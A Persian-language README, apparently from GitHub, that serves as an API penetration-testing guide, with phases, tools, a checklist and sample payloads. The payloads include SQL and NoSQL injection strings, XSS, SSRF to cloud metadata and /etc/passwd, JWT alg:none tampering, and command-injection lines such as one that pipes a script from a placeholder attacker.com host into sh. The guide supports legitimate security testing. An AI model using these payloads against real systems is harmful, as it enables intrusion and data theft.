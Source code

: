 # api


مراحل کلی تست نفوذ API
شناسایی و مستندسازی API

پیدا کردن endpointها با استفاده از:

مستندات رسمی (Swagger, Postman)

ابزارهای تست (Burp Suite, OWASP ZAP)

فایل‌های لو رفته (swagger.json, openapi.json)

Reverse Engineering اپلیکیشن یا PWA

شناسایی متدها (GET, POST, PUT, DELETE, PATCH) و پارامترها.

بررسی احراز هویت و مجوز (Auth & Access Control)

تست توکن‌ها (JWT, API Key)

تست Broken Authentication (ورود بدون رمز، JWT بدون امضا)

تست Broken Access Control (IDOR: تغییر user_id و دسترسی به داده دیگران)

تست اعتبارسنجی ورودی‌ها

بررسی ورودی‌ها برای XSS، SQLi، NoSQLi، Command Injection، SSRF.

استفاده از payload های مناسب هر آسیب‌پذیری.

تست منطق بیزینسی (Logical flaws)

دور زدن محدودیت‌ها (Rate Limit Bypass، تغییر قیمت کالا، دوبار انجام تراکنش)

تست ترتیب درخواست‌ها (Race Conditions)

تست امنیت انتقال داده‌ها

اطمینان از استفاده از HTTPS

بررسی برای Sensitive Data Exposure

ابزارهای مفید

Postman / Insomnia (برای درخواست‌های دستی)

Burp Suite / OWASP ZAP (برای رهگیری و تزریق)

ffuf / wfuzz (برای brute-force روی پارامترها و endpointها)

nuclei (برای اسکن خودکار API)


======================================================================


نمونه پیلودها برای تست نفوذ API
1. SQL Injection

```
' OR 1=1 --
" OR "1"="1
1') UNION SELECT null,null,null--
```
نمونه تست در پارامتر:

```
POST /api/user
{"id": "' OR 1=1 --"}
```

2. NoSQL Injection (MongoDB)

```
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$gt": ""}, "password": {"$gt": ""}}
```

4. XSS (برای APIهایی که خروجی HTML دارند)

```
<script>alert(1)</script>
"><img src=x onerror=alert(1)>
```

4. Command Injection

```
; cat /etc/passwd
&& ping -c 1 attacker.com
| curl http://attacker.com/shell.sh | sh
```

5. SSRF

```
{"url": "http://127.0.0.1:8080/admin"}
{"url": "file:///etc/passwd"}
{"url": "http://169.254.169.254/latest/meta-data/"} // AWS metadata
```

6. JWT Manipulation
حذف امضا یا تغییر الگوریتم:

```
{"alg": "none", "typ": "JWT"}
```
تغییر payload:

```
{"role": "admin"}
```

7. IDOR (Insecure Direct Object Reference)
تغییر شناسه در URL یا Body:

```
GET /api/user/123
GET /api/user/124   // باید داده کاربر دیگر نمایش داده نشود
```

8. Rate Limit Bypass
ارسال تعداد زیادی درخواست پشت سر هم با:

```
ffuf -u https://target/api/send_otp -w phone_numbers.txt
```

=================================================================

# چک‌لیست تست نفوذ API (نسخه ۲۰۲۵)

## 1. شناسایی (Recon & Fuzzing)
- [ ] اجرای fuzzing روی مسیرها، پارامترها، هدرها برای کشف endpointهای مخفی
- [ ] تست پروتکل‌های غیراستاندارد (HTTP روی پورت ۸۰)
- [ ] استفاده از OPTIONS برای شناسایی متدهای مجاز
- [ ] تغییر نسخه API در مسیر (`/api/v1/endpoint` → `/api/v2/endpoint`)

## 2. احراز هویت (Authentication)
- [ ] تست User Enumeration و Brute-Force
- [ ] تست Credential Stuffing
- [ ] بررسی مکانیزم قفل حساب / CAPTCHA
- [ ] تست ریست‌پسورد بدون محافظت کافی

## 3. کنترل دسترسی (Authorization / IDOR)
- [ ] تست IDOR با تغییر شناسه‌ها در URL و Body
- [ ] تست افزایش سطح دسترسی عمودی (Vertical Privilege Escalation)
- [ ] تست افزایش سطح دسترسی افقی (Horizontal Privilege Escalation)

## 4. منطق تجاری (Business Logic Flaws)
- [ ] تست دور زدن Rate Limiting با تغییر هدر `X-Forwarded-For`
- [ ] دستکاری قیمت یا تخفیف (`price: -999`)
- [ ] تست مقادیر بسیار بزرگ یا غیرمنتظره
- [ ] تست چندبار استفاده از کوپن یا تراکنش دوباره (Race Conditions)

## 5. آسیب‌پذیری‌های کلاسیک
- [ ] SQL Injection / NoSQL Injection
- [ ] XSS (در خروجی HTML)
- [ ] SSRF
- [ ] Command Injection
- [ ] تست عدم اعتبارسنجی ورودی
- [ ] بررسی HTTPS و هدرهای امنیتی (HSTS)

## 6. افشای داده (Sensitive Data Exposure)
- [ ] تست محدودیت نرخ (Rate Limiting)
- [ ] تست افشای PII یا توکن‌ها در پاسخ‌ها یا خطاها

## 7. گزارش‌دهی و بازآزمایی
- [ ] تهیه گزارش با سطح خطر، نحوه رفع، و وضعیت Retest
- [ ] اولویت‌بندی آسیب‌ها بر اساس شدت و پیچیدگی

## 8. نظارت مستمر
- [ ] پیاده‌سازی Runtime API Protection
- [ ] پایش حملات سرریز، رفتار نابهنجار یا تهدیدات نوظهور

---

# پیلودهای رایج ۲۰۲۵ (بر اساس گزارش هانترها)

## 1. SQL Injection
```sql
' OR 1=1 --
" OR "1"="1
1') UNION SELECT null,null,null--


==================================================================
